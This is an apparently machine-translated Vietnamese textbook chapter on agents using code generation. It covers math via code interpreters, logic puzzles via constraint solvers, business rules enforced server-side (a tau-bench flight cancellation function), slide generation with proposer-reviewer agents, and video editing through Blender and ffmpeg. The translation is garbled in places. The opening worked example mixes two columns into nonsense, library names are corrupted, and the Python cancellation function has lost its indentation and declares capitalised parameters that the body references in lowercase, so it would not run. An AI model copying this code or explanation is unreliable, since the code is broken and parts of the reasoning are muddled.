LLM hoạt động rất tốt trong việc hiểu và tạo ngôn ngữ tự nhiên, nhưng có những thiếu sót cơ bản trong tính toán chính xác, các phép toán ký hiệu hoặc đạo hàm logic nghiêm ngặt. Lý do là thế này: Tư duy mô hình có bản chất xác suất và gần đúng, trong khi các vấn đề toán học và logic đòi hỏi các câu trả lời chính xác và xác định. Hãy dùng một so sánh cụ thể để minh họa:

```
Câu hỏi: Một lớp có 40 học sinh, trong đó 60% học toán, 45% học vật lý và 25% học cả hai.
Có bao nhiêu người chỉ chọn vật lý mà không chọn toán? "

Lý luận ngôn ngữ tự nhiên thuần túy (dễ xảy ra lỗi): Lý luận mã (chính xác và có thể kiểm chứng):
"60% chọn môn toán = 24 người, môn toán = int(40 * 0.60) # 24
45% chọn vật lý = 18 người, vật lý = int(40 * 0.45) # 18
25% chọn cả hai = 10 người, cả hai = int(40 * 0.25) # 10
only_phys = Phys - cả hai #8
→ Trả lời sai bằng cách trừ vào số người theo phép toán → print(only_phys) # 8 ✓
```

Hãy để LLM chịu trách nhiệm tìm hiểu vấn đề và viết mã, đồng thời để người thông dịch mã chịu trách nhiệm tính toán chính xác - sự phân công lao động này cho phép mỗi người thực hiện nhiệm vụ của mình.

Stephen Wolfram, người sáng lập Mathematica, cung cấp cái nhìn sâu sắc về vấn đề này. Trước khi LLM xuất hiện, đã có một loại hệ thống có thể thực hiện các phép tính toán học chính xác - chúng hoạt động bằng cách sử dụng Tính toán ký hiệu, sử dụng các ký hiệu toán học thay vì các giá trị số gần đúng để xử lý biểu thức. Ví dụ: một máy tính thông thường sẽ tính $\sqrt{2}$ là 1,414, nhưng hệ thống tính toán ký hiệu sẽ giữ $\sqrt{2}$ ở dạng chính xác, chỉ chuyển đổi sang số thập phân khi cần. Wolfram Alpha, do Wolfram tạo ra, là một trong những hệ thống trong đó người dùng nhập các câu hỏi toán học và nó trả về các câu trả lời chính xác. Tuy nhiên, khả năng hiểu ngôn ngữ tự nhiên của nó khá mong manh và phạm vi bao quát của nó còn hạn chế - nó dựa vào một bộ phân tích ngữ pháp tích hợp sẵn và các câu hỏi mà nó có thể nhận ra còn hạn chế. Nếu câu hỏi có chút thay đổi, quá trình phân tích cú pháp có thể thất bại và không thể xử lý lý luận nhiều bước trong các miền mở. LLM chỉ bù đắp cho thiếu sót này - nó hiểu tốt các cách diễn đạt ngôn ngữ tự nhiên khác nhau nhưng không giỏi tính toán chính xác. Mô hình cộng tác mới là: để LLM chịu trách nhiệm tìm hiểu các vấn đề ngôn ngữ tự nhiên của người dùng, xác định các cấu trúc toán học hoặc logic trong đó và chuyển đổi chúng thành các ngôn ngữ hình thức (chẳng hạn như ngôn ngữ Mathematica hoặc thư viện SymPy của Python); sau đó chuyển nó cho một công cụ tính toán ký hiệu chuyên dụng hoặc bộ giải ràng buộc để thực thi nhằm thu được kết quả chính xác.

> **Thử nghiệm 5-1 ★★: Sử dụng các công cụ tạo mã để cải thiện kỹ năng giải toán**
>
> **Mục tiêu thử nghiệm**: Xác minh rằng Agent cải thiện tính chính xác của tư duy toán học thông qua Trình thông dịch mã.
>
> **Giải pháp kỹ thuật**: Trang bị cho Agent sandbox Python được cài đặt với các thư viện Symy, numpy, scipy và toán học khác. Agent Khi gặp một bài toán, hãy hình thức hóa nó thành Mã Python: Symy thực hiện các phép tính ký hiệu (phép tính, giải phương trình), scipy thực hiện tối ưu hóa số và numpy thực hiện các phép toán ma trận. Mã được tạo sẽ được thực thi trong hộp cát và trả về kết quả chính xác.
>
> **Tiêu chí chấp nhận**: Sử dụng các câu hỏi kiểu AIME (được đo điểm chuẩn theo Cuộc thi mời gọi Toán học Hoa Kỳ) để đánh giá. So sánh độ chính xác của tư duy chuỗi tư duy thuần túy và tư duy được hỗ trợ bằng mã, chế độ được hỗ trợ bằng mã yêu cầu độ chính xác cao hơn đáng kể. Kiểm tra xem mã có sử dụng thư viện toán học chính xác hay không và liệu quy trình giải có rõ ràng về mặt logic hay không.
>

> **Thử nghiệm 5-2 ★★: Sử dụng các công cụ tạo mã để cải thiện kỹ năng tư duy logic**
>
> **Mục tiêu thử nghiệm**: Đánh giá khả năng hỗ trợ tư duy logic thông qua mã giải ràng buộc của Agent.
>
> **Giải pháp kỹ thuật**: Trang bị cho Agent Trình thông dịch mã chứa thư viện python-constraint. Agent Chuyển các câu đố logic (chẳng hạn như bài toán hiệp sĩ và tên vô lại) thành các định nghĩa ràng buộc chính thức: xác định tất cả các biến (danh tính của mỗi người dân đảo), các ràng buộc (dẫn xuất như "hiệp sĩ nói sự thật"), xác định các ràng buộc và gọi người giải quyết để tìm kiếm giải pháp thỏa mãn tất cả các ràng buộc.
>
> **Tiêu chí chấp nhận**: Sử dụng [K&K Puzzle Dataset ](https://huggingface.co/datasets/K-and-K/perturbed-knights-and-knaves) để đánh giá giá, tỷ lệ chính xác của giải pháp chế độ hỗ trợ mã hóa đạt hơn 90%, cao hơn đáng kể so với chế độ tư duy thuần túy.
>

Thí nghiệm này còn tiết lộ một quy luật tổng quát hơn: có sự đánh đổi giữa mô hình và giàn giáo. Khi mô hình đủ mạnh, giàn giáo có thể mỏng hơn - mô hình có thể tự tìm ra logic và mức tăng mà bộ giải mã mang lại bị thu hẹp; khi mô hình không đủ mạnh, phải làm nhiều việc hơn trong giàn giáo - lý luận logic chính được chuyển giao cho mã và bộ giải ràng buộc để đảm bảo tính chính xác. Vì lý do này, thí nghiệm này đã cố tình chọn một mô hình yếu để khuếch đại sự so sánh này: trên một mô hình yếu, chế độ tư duy thuần túy sẽ thường xuyên tính toán sai và hỗ trợ mã có thể tăng độ chính xác đáng kể; nhưng với một mô hình lý luận đủ mạnh, tư duy thuần túy thường có thể giải quyết được tất cả các câu đố và mức độ hỗ trợ của mã sẽ hội tụ về gần bằng không. Do đó, độ dày của giàn giáo phụ thuộc vào khả năng của mô hình mà bạn có - đây cũng là tiền đề dễ bị bỏ qua khi đánh giá một công nghệ Agent: cùng một bộ giàn giáo, kết hợp với các mô hình có khả năng khác nhau, có thể dẫn đến những kết luận hoàn toàn khác nhau.

### Mã làm ràng buộc cho các quy tắc kinh doanh

Phần này là phản hồi trực tiếp cho Harness Engineering trước đó. Một trong những nguyên tắc cốt lõi của Harness là "ràng buộc: mã hóa, không phải tài liệu" - chuyển đổi các quy tắc từ tài liệu ngôn ngữ tự nhiên thành mã thực thi, biến chúng thành các ràng buộc bắt buộc đối với hành vi của hệ thống thay vì hướng dẫn tư vấn. Việc tạo mã cho phép Agent hoàn thành quá trình chuyển đổi này một cách tự động.

Các quy tắc kinh doanh, quy trình làm việc và logic ra quyết định thường đầy mơ hồ nếu chúng chỉ được mô tả bằng ngôn ngữ tự nhiên. “Yêu cầu hoàn lại tiền hợp lý” là gì? Điều gì được coi là “khẩn cấp”? Ranh giới của những khái niệm này rất khó xác định bằng ngôn ngữ tự nhiên - "hoàn tiền trong vòng 7 ngày kể từ ngày mua" có vẻ rõ ràng, nhưng "7 ngày" là ngày tự nhiên hay ngày làm việc? "Mua hàng" là thời điểm đặt hàng hay thời gian giao hàng? Ngược lại, mã cung cấp một cách thể hiện kiến thức rõ ràng, có thể thực thi được—nó chạy thành công hoặc đưa ra lỗi, không có sự mơ hồ.

**Thể hiện chính xác các quy tắc kinh doanh phức tạp.**

**Quy tắc ngôn ngữ tự nhiên và quy tắc được mã hóa: bổ sung thay vì thay thế**

Ưu điểm của việc viết quy tắc bằng system prompt: mô hình có thể giải thích chính sách cho người dùng dựa trên quy tắc; nó có thể tìm ra cách giải quyết dựa trên các quy tắc (chẳng hạn như "thay đổi thay vì hủy"); và ban đầu nó có thể đánh giá tính khả thi trước khi gọi công cụ.

Ưu điểm của việc chuyển đổi mã quy tắc thành công cụ xác minh: **độ chính xác và rõ ràng** của logic mã--không có "sự hiểu biết sai lệch"; **sự chắc chắn** của việc thực thi mã--cùng một đầu vào phải tạo ra cùng một đầu ra; đặc biệt thích hợp cho **kết hợp quy tắc phức tạp** --kết hợp Boolean đa điều kiện, tính toán thời gian, xác minh nguồn dữ liệu chéo.

Trong thực tế, chúng nên được sử dụng kết hợp: các từ gợi ý của hệ thống chứa các quy tắc ngôn ngữ tự nhiên để hiểu và giao tiếp, đồng thời các điểm quyết định chính được trang bị các công cụ xác minh được mã hóa làm "người gác cổng" để đảm bảo tuân thủ.

Giá trị thực sự của các quy tắc được mã hóa không phải là để tối ưu hóa hiệu quả của mã thông báo mà là để ngăn chặn các hoạt động sai không thể khắc phục được - hủy đơn hàng, chuyển tiền và xóa dữ liệu. Một khi các hoạt động này được thực hiện, chúng không thể được hoàn tác. Xác minh được mã hóa thiết lập tuyến phòng thủ cuối cùng trước khi hoạt động. Giá trị của đảm bảo an ninh này vượt xa chi phí thực hiện.

**Hợp nhất xác minh và thực hiện: danh sách kiểm tra hướng dẫn suy nghĩ, kiểm tra sự thật bảo vệ cổng**

Thay vì thiết kế một công cụ xác minh độc lập, tốt hơn là để công cụ thực thi thực hiện xác minh trước. Lấy chính sách hủy chuyến của hãng hàng không trong τ-bench (tau-bench, một bài kiểm tra điểm chuẩn mô phỏng các kịch bản dịch vụ khách hàng hàng không và thương mại điện tử, đồng thời đánh giá cụ thể khả năng gọi công cụ Agent và khả năng tuân thủ chính sách) làm ví dụ:

```python
def cancel_reservation(
    reservation_id: str,
    cancellation_reason: str,        # "change_of_plan", "airline_cancelled", "other"
Expected_cabin_class: str = None, # Tùy chọn: để tự kiểm tra model, máy chủ sẽ kiểm tra với giá trị true của cơ sở dữ liệu
Expected_has_insurance: bool = None # Tùy chọn: để tự kiểm tra mô hình, tương tự như trên
) -> dict:
    """
Hủy đặt vé máy bay.

Chính sách hủy (được thực thi bởi máy chủ dựa trên giá trị thực của cơ sở dữ liệu):
- Quy định 1: Các đơn hàng đã sử dụng bất kỳ chặng bay nào đều không được hủy
- Quy định 2: Hủy vé vô điều kiện trong vòng 24 giờ kể từ khi đặt phòng
- Quy tắc 3: Các chuyến bay bị hãng hàng không hủy luôn có thể bị hủy
- Quy tắc 4: Hạng thương gia luôn được hủy
- Quy định 5: Vé hạng phổ thông cơ bản và hạng phổ thông yêu cầu phải hủy bảo hiểm du lịch.

Trước khi gọi, vui lòng kiểm tra chi tiết đơn hàng và kiểm tra từng chính sách trên; tham số dự kiến_* được sử dụng cho
Việc nêu cơ sở phán đoán của bạn chỉ nhằm mục đích so sánh và kiểm tra máy chủ và không ảnh hưởng đến các quyết định chính sách.
    """
# Tất cả các sự kiện về chính sách đều được đọc từ cơ sở dữ liệu và các giá trị do mô hình tự báo cáo không bao giờ được chấp nhận.
    r = db.get_reservation(reservation_id)
now = server_clock.now() # Đồng hồ máy chủ, không được mô hình cung cấp

# Ghi lại cảnh báo khi giá trị tự báo cáo của mô hình không nhất quán với giá trị thực, giá trị này được sử dụng để phát hiện những hiểu lầm hoặc khả năng tiêm vào mô hình.
    if expected_cabin_class is not None and expected_cabin_class != r.cabin_class:
        log_mismatch(reservation_id, "cabin_class", expected_cabin_class, r.cabin_class)
    if expected_has_insurance is not None and expected_has_insurance != r.has_insurance:
        log_mismatch(reservation_id, "has_insurance", expected_has_insurance, r.has_insurance)

    if r.any_segment_used:
        return {"success": False, "reason": "Cannot cancel with used segments"}

    hours_since_booking = (now - r.booking_time).total_seconds() / 3600
    if hours_since_booking <= 24:
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Cancelled within 24-hour window"}

    if r.flight_status == "cancelled_by_airline":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Airline cancelled flight"}

    if r.cabin_class == "business":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Business class cancellation"}

    if r.cabin_class in ["basic_economy", "economy"]:
        if r.has_insurance:
            execute_cancellation(reservation_id)
            return {"success": True, "reason": f"{r.cabin_class} with insurance"}
        return {"success": False, "reason": f"{r.cabin_class} requires insurance"}

    return {"success": False, "reason": "Does not meet cancellation policy"}
```

Giá trị của thiết kế này có thể được xem xét ở hai cấp độ.

**Cấp độ 1: Các tham số là danh sách kiểm tra tư duy**. Phần mô tả công cụ liệt kê chính sách hủy hoàn chỉnh và yêu cầu mô hình "truy vấn chi tiết đơn hàng và kiểm tra từng mặt hàng trước khi gọi"; tham số `expected_*` tùy chọn tiếp tục nhắc mô hình viết ra cơ sở cho phán đoán của nó một cách rõ ràng. Để điền các tham số này, trước tiên, mô hình phải gọi công cụ truy vấn để lấy thông tin chi tiết về đơn hàng và xác nhận từng điều kiện một - quá trình điền các tham số về cơ bản là một **danh sách kiểm tra bắt buộc**. Khi mô hình nhận thấy hạng cabin là hạng phổ thông và không mua bảo hiểm, rất có thể mô hình sẽ nhận thấy quy tắc 5 trong quá trình chuẩn bị cuộc gọi. Do đó, cuộc gọi sẽ không được bắt đầu. Thay vào đó, người dùng sẽ được thông báo trực tiếp rằng "Hạng phổ thông không thể bị hủy nếu không có bảo hiểm. Bạn có thể cân nhắc mua bảo hiểm trước khi hủy hoặc thay đổi đặt chỗ". Giá trị của lớp này là hướng dẫn suy nghĩ và giảm các cuộc gọi không hợp lệ; nhưng nó không chịu trách nhiệm bảo mật - tham số `expected_*` chỉ là thông tin tự tuyên bố của mô hình và máy chủ không bao giờ coi đó là thông tin thực tế.

**Cấp độ 2: Kiểm tra sự thật phía máy chủ là người gác cổng**. Hãy chú ý đến các thiết kế chính trong mã: hạng cabin, trạng thái bảo hiểm, thời gian đặt chỗ, cách sử dụng phân khúc, trạng thái chuyến bay, tất cả đều được cơ sở dữ liệu truy vấn máy chủ thu được; thời gian hiện tại đến từ đồng hồ máy chủ. **Không có thông tin chính sách nào đến từ các thông số do mô hình tự báo cáo**. Đây không phải là sự cảnh báo không cần thiết: mô hình có thể gây ảo giác hoặc bị thao túng bởi các gợi ý - như đã phân tích trong phần “Ba yếu tố chí mạng” ở trên, Agent trong cùng ngữ cảnh khó có thể chứng minh mình vô tội. Nếu `cabin_class`, `has_insurance` hoặc thậm chí `current_time` được thiết kế dưới dạng tham số được mô hình điền vào, miễn là mô hình báo lỗi (hoặc được kích hoạt để báo lỗi) bằng một giá trị, thì "người giữ" sẽ vô dụng. Tuyến phòng thủ cuối cùng phải dựa trên dữ liệu mà mô hình không thể giả mạo - điều này phù hợp với quan điểm trước đây là "các hoạt động chính cần được xác minh độc lập": tính độc lập không chỉ đề cập đến các mô hình độc lập mà còn đề cập đến các nguồn dữ liệu độc lập.

Như vậy, bảo đảm ba lần đã hoàn tất: (1) Quy tắc ngôn ngữ tự nhiên của lời nhắc hệ thống giúp hiểu và giải thích; (2) Mô tả công cụ và thiết kế tham số đóng vai trò như một danh sách kiểm tra để hướng dẫn mô hình kiểm tra rõ ràng các điều kiện trước khi gọi; (3) Việc xác minh được mã hóa phía máy chủ dựa trên giá trị thực của cơ sở dữ liệu đóng vai trò là người gác cổng cuối cùng. Hai cấp độ đầu tiên làm giảm khả năng xảy ra lỗi và cấp độ thứ ba đảm bảo rằng lỗi sẽ không biến thành tổn thất không thể khắc phục được.

> **Thử nghiệm 5-3 ★★: Mô hình nhỏ cải thiện độ chính xác của các quy tắc thực thi thông qua kiến thức được mã hóa**
>
> **Mục tiêu thử nghiệm**: Xác minh rằng mô hình tham số nhỏ (Qwen3-4B) có thể cải thiện đáng kể độ chính xác và tính nhất quán của việc thực thi chính sách phức tạp thông qua các quy tắc kinh doanh được mã hóa.
>
> **Giải pháp kỹ thuật**: Thiết kế thử nghiệm kiểm soát dựa trên kịch bản dịch vụ khách hàng hàng không τ-bench. **Nhóm kiểm soát**: Quy tắc ngôn ngữ tự nhiên thuần túy, dựa trên tư duy của chính người mẫu. **Nhóm thử nghiệm**: Đảm bảo ba lần - các từ gợi ý của hệ thống giữ nguyên các quy tắc ngôn ngữ tự nhiên; mô tả công cụ liệt kê chính sách hoàn chỉnh và sử dụng tham số `expected_*` tùy chọn để hướng dẫn kiểm tra từng mục (danh sách kiểm tra) trước khi gọi mô hình; việc xác minh mã nội bộ của công cụ dựa trên giá trị thực của cơ sở dữ liệu mô phỏng (các thông tin thực tế về chính sách luôn được kiểm tra trong cơ sở dữ liệu, thời gian được lấy từ đồng hồ máy chủ và các tham số tự báo cáo của mô hình không được chấp nhận). Các chỉ số đánh giá: tỷ lệ thành công của nhiệm vụ, số lần vi phạm chính sách, số lần gọi công cụ không hợp lệ, trải nghiệm người dùng.
>
> **Kết quả mong đợi**: Nhóm thử nghiệm tốt hơn đáng kể so với nhóm đối chứng. Quan trọng hơn, người ta quan sát thấy mô hình đã xác định một cách độc lập các hoạt động bất hợp pháp khi chuẩn bị các tham số, trực tiếp đề xuất các lựa chọn thay thế cho người dùng và xác minh tính hiệu quả của "tham số dưới dạng danh sách kiểm tra"; đồng thời, tỷ lệ các giá trị tự báo cáo của `expected_*` không nhất quán với giá trị thực của cơ sở dữ liệu đã được tính để xác minh sự cần thiết của "xác minh giá trị sự thật phía máy chủ" nhằm ngăn chặn những hiểu lầm.
>
### Tạo đa phương tiện dựa trên mã

Việc tạo ra nhiều tài liệu phức tạp về cơ bản là tổ chức và trình bày dữ liệu có cấu trúc. Cho dù đó là bản trình bày, báo cáo kỹ thuật hay ứng dụng tương tác, lớp bên dưới được xác định bằng mã - HTML mô tả cấu trúc, CSS kiểm soát kiểu và JavaScript thực hiện tương tác. Việc tạo tài liệu truyền thống dựa vào việc chỉnh sửa WYSIWYG của giao diện GUI, nhưng nó không trực quan cũng như không hiệu quả đối với Agent vì các hoạt động GUI yêu cầu hiểu biết trực quan và định vị tọa độ chính xác. Thông qua việc tạo mã, Agent bỏ qua vấn đề định vị trực quan và giành quyền kiểm soát chính xác đối với tài liệu - vị trí, kiểu dáng và nội dung của từng thành phần được xác định rõ ràng và có thể được sửa đổi và tối ưu hóa theo chương trình.

**PPT tạo ra Agent.**

Việc tạo PPT thường tốn nhiều thời gian và công sức. Một báo cáo học thuật điển hình PPT có thể chứa hàng tá trang trình bày và mỗi trang cần được thiết kế cẩn thận với bố cục, các điểm chính và biểu đồ. Nếu bạn điều chỉnh lại việc tạo PPT như một vấn đề tạo mã, bạn có thể đơn giản hóa độ phức tạp rất nhiều. Các khung PPT hiện đại như Slidev áp dụng triết lý thiết kế trang nhã: sử dụng Markdown và HTML để xác định nội dung trình bày. Để tạo trình chiếu, bạn chỉ cần viết ngôn ngữ đánh dấu đơn giản và khung sẽ tự động xử lý kết xuất, bố cục và hoạt ảnh. Cực kỳ thân thiện với Agent, người đã thành thạo khả năng tạo mã.




Chỉ có khả năng tạo mã là không đủ. **Agent không biết hiệu ứng hiển thị thực tế sau khi viết mã**: Nội dung có quá dày đặc hay không, văn bản có bị tràn hay không, kích thước hình ảnh có phù hợp hay không, những điều này chỉ có thể được phát hiện sau khi kết xuất thực tế. Vì vậy, cần phải đưa ra cơ chế **Người đề xuất-Người đánh giá**(Proposer-Reviewer) (như trong Hình 5-5) để tách việc viết mã và đánh giá chất lượng thành hai Agent độc lập:

- **Người đề xuất Agent** chịu trách nhiệm tạo mã Slidev, hiểu cấu trúc logic của nội dung và phân tách thành các trang hợp lý
- **Người đánh giá Agent** chạy mã để hiển thị mỗi trang thành một hình ảnh và sử dụng Vision LLM (một mô hình lớn đa phương thức có thể "nhìn thấy" hình ảnh) để phân tích kết quả hiển thị từ các khía cạnh như mật độ nội dung, khả năng đọc, tính hợp lý của bố cục, vẻ đẹp hình ảnh, v.v. và tạo **đề xuất cải tiến có cấu trúc** - không mơ hồ "không đẹp mắt", mà là hướng dẫn cụ thể và có thể thực thi được (chẳng hạn như "Trang 3: Quá nhiều nội dung, nên sử dụng tách", "Trang 7: Phông chữ khối mã quá nhỏ, nên tăng lên 14pt"), bao gồm số trang, loại sự cố, mức độ nghiêm trọng và các trường khác

Sau khi nhận được phản hồi, Người đề xuất hiểu được ý định và sửa đổi mã. Phiên bản mới được gửi đến Người đánh giá để xem xét lại và việc lặp lại được thực hiện cho đến khi chất lượng đạt tiêu chuẩn hoặc đạt số lần tối đa (chẳng hạn như 5 vòng).

Chu trình lặp lại của người đề xuất-người đánh giá trong chương này có cùng nguồn gốc với ứng dụng **phê duyệt trước** trong Chương 4 - cả hai đều là ví dụ về mô hình người đề xuất-người đánh giá: tách biệt giữa tạo và đánh giá, đánh giá độc lập theo mô hình kép. Sự khác biệt nằm ở mục tiêu và hình thức: Chương 4 sử dụng nó để xem xét bảo mật các hoạt động không thể đảo ngược và người đánh giá phê duyệt hoặc từ chối một hoạt động duy nhất; chương này sử dụng nó để cải tiến lặp đi lặp lại chất lượng nội dung—nhiều vòng và người đánh giá được tiếp xúc với thông tin mới (kết quả hiển thị) mà người đề xuất không thể nhìn thấy. Các nguyên tắc thiết kế cốt lõi đều giống nhau (chia sẻ các giới hạn mục tiêu, sử dụng các nhóm mô hình khác nhau để giảm xác suất xảy ra lỗi tương tự và phản hồi dưới dạng các sự kiện đặc biệt được thêm vào phần Người đề xuất). Ưu điểm cốt lõi của việc sử dụng phân công lao động kép Agent thay vì một vòng lặp Agent duy nhất là quản lý ngữ cảnh: Người đánh giá chỉ xử lý phiên bản mới nhất của hình ảnh được hiển thị mỗi lần mà không bị các phiên bản lịch sử can thiệp; Người đề xuất chỉ tích lũy phản hồi bằng văn bản có cấu trúc, tiêu thụ ít mã thông báo hơn và dễ lý luận hơn. Giải pháp Agent duy nhất yêu cầu nhiều lần lặp lại hàng chục trang hình ảnh được kết xuất được tích lũy trong cùng một ngữ cảnh và ngữ cảnh nhanh chóng vượt quá giới hạn. Cơ chế này sẽ được sử dụng lại trong các thử nghiệm chỉnh sửa video và hiển thị nhật ký tiếp theo; Chương 10 sẽ khám phá thêm các mô hình cộng tác đa Agent khác bên cạnh người đề xuất-đánh giá.

> **Thí nghiệm 5-4 ★★: Tự động tạo PPT dựa trên luận án**
>
> **Mục tiêu thử nghiệm**: Tự động tạo bản trình bày chất lượng cao từ các bài báo học thuật và xác minh tính hiệu quả của cơ chế người đề xuất-đánh giá trong việc kiểm soát chất lượng sáng tạo nội dung.
>
> **Giải pháp kỹ thuật**: Sử dụng khung Slidev. Người đề xuất Agent đọc bài báo PDF, trích xuất cấu trúc chương, các đối số và biểu đồ cốt lõi, lập kế hoạch cấu trúc PPT và tạo mã Slidev theo từng trang. **Các bước chính**: Người đánh giá Agent hiển thị ảnh chụp màn hình của từng trang, sử dụng Vision LLM để kiểm tra hiệu ứng hiển thị, xác định các vấn đề như tràn văn bản, tắc nghẽn nội dung, kích thước hình ảnh không phù hợp, v.v. và tạo đề xuất cải tiến có cấu trúc. Lặp lại cho đến khi đạt được hiệu quả.
>
> **Tiêu chí chấp nhận**: Tạo trang PPT 10-20, bao gồm những đóng góp chính của bài viết. Ít nhất 3 sơ đồ gốc khớp với mô tả văn bản. Không có hiện tượng tràn văn bản trong kết xuất và bố cục hợp lý. Bảng so sánh Agent Sự khác biệt về ngữ cảnh sử dụng và chất lượng sản xuất giữa việc tự xem xét và phân công lao động của người đề xuất-đánh giá.
>

> **Thử nghiệm 5-5 ★★: Tự động tạo video giải thích trên giấy**
>
> **Mục tiêu thử nghiệm**: Mở rộng khả năng tạo PPT và thực hiện việc tạo video giải thích tự động bằng cách kết hợp các kênh thị giác và thính giác.
>
> **Giải pháp kỹ thuật**: Dựa trên quy trình tạo PPT của 5-4 thử nghiệm, Agent đồng thời tạo văn bản giải thích bằng giọng nói cho mỗi trang (tường thuật có hướng dẫn thay vì kể lại), gọi TTS (chuyển văn bản thành giọng nói) để tổng hợp giọng nói và sử dụng ffmpeg để đồng bộ hóa ảnh chụp màn hình PPT với âm thanh để tổng hợp video.
>
> **Tiêu chí chấp nhận**: Số phút video 5-15, thời gian hiển thị của mỗi trang khớp chính xác với thời lượng giọng nói và nội dung giải thích phản ánh các yếu tố hình ảnh.
>
>
> 
>
>
**Chỉnh sửa video Agent.**

Việc sử dụng Computer Use phổ biến để chỉnh sửa video phải đối mặt với những thách thức cơ bản: phần mềm chỉnh sửa video GUI cực kỳ phức tạp và chứa một số lượng lớn các mốc thời gian, lớp và bảng hiệu ứng. Agent yêu cầu định vị chính xác các thành phần giao diện này và chỉnh sửa thông qua các thao tác chuột và bàn phím, đồng thời rất khó để xuất tọa độ chính xác.

Tái cấu trúc việc chỉnh sửa video thành các vấn đề về gọi và tạo mã API giúp giảm đáng kể độ phức tạp. Nhiều phần mềm chuyên nghiệp (chẳng hạn như Blender - một công cụ tổng hợp video và tạo 3D mã nguồn mở hỗ trợ kiểm soát tập lệnh Python; FFmpeg - con dao xử lý âm thanh và video dòng lệnh của Quân đội Thụy Sĩ) cung cấp các giao diện API theo chương trình để hiển thị chức năng cốt lõi theo cách có cấu trúc và có thể kết hợp được. Ví dụ: Blender Python API cho phép kiểm soát chính xác việc nhập, cắt xén, sắp xếp, hiệu ứng chuyển tiếp, trộn âm thanh và các hoạt động khác của video clip thông qua mã. Mỗi thao tác tương ứng với một lệnh gọi hàm rõ ràng. Đối với Agent, việc dịch các yêu cầu ngôn ngữ tự nhiên sang các cuộc gọi API sẽ dễ dàng hơn nhiều so với việc hiểu giao diện GUI và mô phỏng các cú click chuột. Tương tự như tạo PPT, việc chỉnh sửa video cũng sử dụng cơ chế người đề xuất-đánh giá - Người đề xuất Agent tạo tập lệnh Blender, Người đánh giá Agent kết xuất các khung hình chính và sử dụng Vision LLM để kiểm tra hiệu ứng và đưa ra phản hồi cho các đề xuất sửa đổi.

> **Thử nghiệm 5-6 ★★: Chỉnh sửa video thông minh dựa trên API**
>
> **Mục tiêu thử nghiệm**: Xác minh khả năng thực hiện chỉnh sửa video của Agent bằng cách tạo mã Blender Python API và đánh giá vai trò của cơ chế người đề xuất-đánh giá dựa trên phản hồi trực quan trong xử lý nội dung đa phương tiện.
>
> **Thử thách cốt lõi**: Hiểu nhu cầu chỉnh sửa ngôn ngữ tự nhiên của người dùng và chuyển đổi chúng thành chuỗi lệnh gọi API chính xác, xử lý nhiều thao tác chỉnh sửa (chỉnh sửa, hợp nhất, phụ đề, trộn bản âm thanh, hiệu ứng hình ảnh) và đảm bảo rằng tập lệnh Python được tạo được thực thi chính xác. Người đề xuất Agent không thể trực tiếp đánh giá hiệu ứng video sau khi viết mã. Nó phải được hiển thị thông qua Người đánh giá Agent và sử dụng Vision LLM để kiểm tra các khung hình chính.
>
> **Giải pháp kỹ thuật**: Người dùng cung cấp tài liệu video (chẳng hạn như tài liệu gốc chứa các cảnh như lướt sóng, đi bộ đường dài, trượt tuyết, v.v.) và mô tả nhu cầu của họ bằng ngôn ngữ tự nhiên (chẳng hạn như "cắt bỏ phần lướt sóng"). Người đề xuất Agent sử dụng **chiến lược định vị hai bước** thông qua phân tích video phụ Agent:
>
> **Bước một, định vị chi tiết**: Gọi sub-Agent để chuyển đường dẫn video, khoảng thời gian chụp ảnh màn hình 10 giây một lần và vấn đề mục tiêu. Sub-Agent sử dụng ffmpeg để chụp các khung hình chính, nhập tất cả ảnh chụp màn hình cùng với câu hỏi vào Vision LLM và trả về khoảng thời gian của cảnh (chẳng hạn như "Lướt sóng ở giây 40-110").
>
> **Bước 2, định vị chi tiết**: Gọi lại Agent phụ với phạm vi hẹp hơn và mật độ ảnh chụp màn hình mỗi giây để xác định chính xác điểm thời gian biên.
>
